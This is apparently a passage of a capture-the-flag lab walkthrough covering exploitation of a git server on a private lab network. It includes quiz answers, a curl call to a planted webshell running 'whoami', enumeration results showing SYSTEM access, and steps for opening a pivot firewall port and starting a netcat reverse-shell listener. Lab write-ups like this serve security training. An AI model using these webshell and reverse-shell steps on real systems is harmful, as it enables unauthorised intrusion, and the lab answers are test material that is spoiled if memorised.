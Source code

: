 Just to confirm that you have been paying attention to the script: What is the *name* of the cookie set in the POST request made on line 74 (line 73 if you didn't add the shebang) of the exploit?

    csrftoken


## Task 20  Git Server Exploitation

Exploiting and accessing backdoor:

    curl http://10.200.90.150/web/exploit-exec.php -d "a=whoami"

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648953510554_image.png)


attacking box - add to `/etc/hosts`:

    gitserver.thm    10.200.90.150

**Answer the questions**

**Bonus Question (Optional):** Using the given code for the exploit we used against the web server, see if you can adapt this exploit to create a full pseudoshell environment.

    No answer needed

First up, let's use some basic enumeration to get to grips with the webshell:
What is the hostname for this target?

    git-serv

What operating system is this target?

    windows

What user is the server running as?

    nt authority\system

This will send three ICMP ping packets back to you.
How many make it to the waiting listener?

    0

**Pivot Machine - CentOS Open Firewall Port**
Open port on pivot machine to setup listener and capture reverse shell (port above 15000):

    firewall-cmd --zone=public --add-port 17000/tcp

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649002703660_image.png)


Setup Listener on Pivot Machine:

    ./nc-exec -lvnp 17000

**Burp - Create POST request**


![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1649003315757_image.png)

Testing to ensure `a=whoami` yields a return.
